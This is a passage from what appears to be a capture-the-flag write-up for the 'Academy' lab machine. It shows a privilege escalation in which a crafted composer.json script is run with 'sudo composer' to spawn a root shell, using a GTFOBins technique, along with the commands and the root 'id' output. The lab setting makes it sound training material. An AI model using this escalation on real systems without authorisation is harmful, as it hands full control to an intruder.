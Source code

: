 - `gtfobins` has a way to abuse this functionality to elevetae privileges

![composer](../images/academy/composer.PNG)



__Result__

```bash
mrb3n@academy:/var/log$ TF=$(mktemp -d)
mrb3n@academy:/var/log$ echo '{"scripts":{"x":"/bin/sh -i 0<&3 1>&3 2>&3"}}' >$TF/composer.json
mrb3n@academy:/var/log$ sudo composer --working-dir=$TF run-script x
PHP Warning:  PHP Startup: Unable to load dynamic library 'mysqli.so' (tried: /usr/lib/php/20190902/mysqli.so (/usr/lib/php/20190902/mysqli.so: undefined symbol: mysqlnd_global_stats), /usr/lib/php/20190902/mysqli.so.so (/usr/lib/php/20190902/mysqli.so.so: cannot open shared object file: No such file or directory)) in Unknown on line 0
PHP Warning:  PHP Startup: Unable to load dynamic library 'pdo_mysql.so' (tried: /usr/lib/php/20190902/pdo_mysql.so (/usr/lib/php/20190902/pdo_mysql.so: undefined symbol: mysqlnd_allocator), /usr/lib/php/20190902/pdo_mysql.so.so (/usr/lib/php/20190902/pdo_mysql.so.so: cannot open shared object file: No such file or directory)) in Unknown on line 0
Do not run Composer as root/super user! See https://getcomposer.org/root for details
> /bin/sh -i 0<&3 1>&3 2>&3
# id
uid=0(root) gid=0(root) groups=0(root)
```





